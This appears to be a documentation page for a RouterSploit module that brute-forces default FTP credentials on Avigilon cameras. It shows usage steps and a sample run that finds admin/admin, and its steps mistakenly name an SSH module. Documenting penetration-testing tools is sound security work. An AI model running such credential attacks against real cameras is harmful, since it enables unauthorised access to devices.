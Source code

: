 ## Description

Module performs dictionary attack with default credentials against Avigilon Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/avigilon/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/avigilon/ftp_default_creds
rsf (Avigilon Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Avigilon Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
